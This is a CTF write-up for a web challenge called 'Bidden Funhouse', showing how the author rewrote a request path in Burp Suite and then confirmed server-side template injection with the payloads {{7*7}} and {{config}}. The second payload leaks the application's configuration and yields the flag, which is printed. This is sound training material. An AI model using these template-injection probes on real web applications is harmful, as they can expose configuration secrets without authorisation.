

# <u>Bidden Funhouse</u>

* **Event:** Hack Havoc CTF by Cyber 
* **Problem Type:** Web
* **Point Value / Difficulty:** 60
## Description
Seems like you're hitting a wall. But walls can have cracks, right? Find a way past the barricade and see if you can decode what's been hidden inside. Good luck!

http://challenge.ctf.cybermaterial.com/b/
## Solution
On opening the website, we see a form input. On putting a name, it shows forbidden. 

Based on the `shell shocker` challenge, I noticed that the `/b` went missing while executing. So I opened `burpsuite` and changed the request.

From
```
GET /?name=admin HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.cybermaterial.com/b/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

to 

```
GET /b/?name=admin HTTP/1.1
Host: challenge.ctf.cybermaterial.com
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge.ctf.cybermaterial.com/b/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

On sending this request we get something like this:-


On seeing this, I searched about some possible vulnerabilities, and `ssti` was one of them. To verify it I found a stand payload `{{7*7}}` on [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)

On sending it instead of name I got the value of the expression.
`こんにちは 49`

Hence ssti was confirmed. Now there only I found this other payload `{{config}}` and this was the correct one.

`http://challenge.ctf.cybermaterial.com/?name={{config}}`
The above is the payload, and it gives the flag.
![[bidden_2.png]]

Flag:- `CM{Y0u_4r3_a_r3A1Ly_go0D_nINj4}`